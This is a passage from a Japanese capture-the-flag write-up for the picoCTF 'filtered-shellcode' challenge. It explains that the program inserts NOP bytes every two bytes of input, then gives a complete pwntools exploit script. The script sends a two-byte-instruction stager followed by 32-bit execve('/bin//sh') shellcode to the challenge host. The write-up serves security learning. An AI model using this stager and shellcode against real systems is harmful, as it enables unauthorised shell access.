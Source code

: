 uafを理解するのにはきっと面白いんだろうけど64bitを希望。

# filtered-shellcode
シェルコード問。ソースなし。execute関数で色々ガチャガチャやっていますが、デバッガで終わったとの様子を見てみると、2バイトごとにnopが2バイト間に入るようになっています。入れた命令列がnopで潰れることはないようなので、2バイトで解釈できるようにシェルコードを入れればよいです。面倒だったのでstagerにしました。

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './fun'
HOST = 'mercury.picoctf.net'
PORT = 16610

elf = ELF(TARGET)
def start():
        if not args.R:
                print("local")
                return process(TARGET)
                # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
                # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
        else:
                print("remote")
                return remote(HOST, PORT)

def get_base_address(proc):
        lines = open("/proc/{}/maps".format(proc.pid), 'rb').readlines()
        for line in lines :
                if TARGET[2:] in line.split('/')[-1] :
                        break
        return int(line.split('-')[0], 16)
        # return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
        script = "handle SIGALRM ignore\n"
        PIE = get_base_address(proc)
        script += "set $base = 0x{:x}\n".format(PIE)
        for bp in breakpoints:
                script += "b *0x%x\n"%(PIE+bp)
        script += "c"
        gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

r = start()
if args.D:
        debug(r, [0x5c9])
payload = ''
payload += asm('''push eax; nop''')
payload += asm('''xor eax, eax''')
payload += asm('''inc eax; inc eax''')
payload += asm('''inc eax; nop''')
payload += asm('''xor ebx, ebx''')
payload += asm('''pop ecx; nop''')
payload += asm('''int 0x80;''')
payload += asm('''push ecx; ret''')

r.sendlineafter('\n', payload)
_32_SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\x31\xd2\xcd\x80"
r.send(_32_SHELLCODE)
```